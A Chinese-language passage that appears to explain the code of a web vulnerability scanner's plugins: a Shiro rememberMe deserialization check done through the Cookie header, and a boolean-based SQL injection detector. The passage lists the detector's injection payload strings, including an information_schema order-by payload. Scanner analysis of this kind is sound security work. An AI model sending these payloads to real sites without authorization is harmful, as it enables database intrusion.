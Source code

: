 然后将payload写到Cookie的 rememberMe中 发起请求  
```python
_cookie = paramToDict(reqHeader["Cookie"], place=PLACE.COOKIE)
_cookie["rememberMe"] = payload
reqHeader["Cookie"] = url_dict2str(_cookie, PLACE.COOKIE)
```

最后判断 `"deleteMe" not in req.headers.get('Set-Cookie', '')`  
则存在反序列化漏洞  


###### sqli_bool 布尔注入检测


先直接请求一次 然后去除多余数据后匹配相似度  
```python
if self.requests.method == HTTPMETHOD.POST:
    r = requests.post(self.requests.url, data=self.requests.data, headers=self.requests.headers)
else:
    r = requests.get(self.requests.url, headers=self.requests.headers)
html = self.removeDynamicContent(r.text)
self.resp_str = self.removeDynamicContent(self.resp_str)
try:
    self.seqMatcher.set_seq1(self.resp_str)
    self.seqMatcher.set_seq2(html)
    ratio = round(self.seqMatcher.quick_ratio(), 3)
```
并且查找动态内容  
计数+1  
```python
self.findDynamicContent(self.resp_str, html)
count += 1
```

开始准备插入payload测试  

payload  
```python
sql_payload = [
    "<--isdigit-->",
    "'and'{0}'='{1}",
    '"and"{0}"="{1}',
    " and '{0}'='{1}-- ",
    "' and '{0}'='{1}-- ",
    '''" and '{0}'='{1}-- ''',
    ") and '{0}'='{1}-- ",
    "') and '{0}'='{1}-- ",
    '''") and '{0}'='{1}-- '''
]
```
闭合单双引号加括号 然后 用and等于随机数 最后注释  

如果有参数中有 `desc`或者`asc` 可能可以使用order by   
payload增加一条 `,if('{0}'='{1}',1,(select 1 from information_schema.tables))`   

默认是不是数字的 判断一下value值是否是数字 是的话 is_num设置为True  
